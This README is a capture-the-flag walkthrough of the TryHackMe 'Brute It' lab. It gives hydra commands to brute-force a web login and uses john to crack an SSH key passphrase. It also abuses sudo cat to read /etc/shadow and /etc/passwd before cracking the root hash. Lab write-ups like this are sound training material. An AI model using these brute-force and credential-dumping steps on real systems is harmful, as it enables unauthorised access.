 # Brute It CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Brute It** CTF challenge on [TryHackMe](https://tryhackme.com/room/bruteit). 
---

after running a quick scan

![scan](imgs/scan.png "scan")

we know about 2 open ports 22 and 80, from scan we also know that 
there are running `OpenSSH 7.6p1` and `Apache 2.4.29` on `ubuntu`


after running feroxbuster we know about hidden `/admin` directory, 

![ferox](imgs/ferox.png "ferox")

after inspoecting the source code we know about user `admin`

![src](imgs/src.png "src")

this is our login request in BurpSuite

![req](imgs/req.png "req")

using hydra to brute force the login

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.201.73 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=invalid"
```

![hydra](imgs/hydra.png "hydra")


we found john's RSA praivate key, key is encrypted so we need to use john to brute-force it

![rsa](imgs/rsa.png "rsa")

```
$ ssh2john key > hash
$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
``` 
![john1](imgs/john1.png "john1")

we got a passphrase 

we got user access and user flag

![user](imgs/user.png "user")

linpeas found that we can use cat as sudo

![lin](imgs/lin.png "lin")

checking GTFObins

![gtfo](imgs/gtfo.png "gtfo")

we need to do few things, first grabbing the content of `/etc/shadow` and `/etc/passwd`

```
$ LFILE=/etc/shadow
$ sudo cat "$LFILE"
$ LFILE=/etc/passwd
$ sudo cat "$LFILE"
```

passwd file:

![passwd](imgs/passwd.png "passwd")

shadow file:

![shadow](imgs/shadow.png "shadow")

then we need to use `unshadow passwd shadow > hash.txt` (or use johnny GUI), now we can crack the hash using john or john GUI

![john2](imgs/john2.png "john2")

we have root password 

now we have root access and root flag

![root](imgs/root.png "root")

# MACHINE PWNEDs

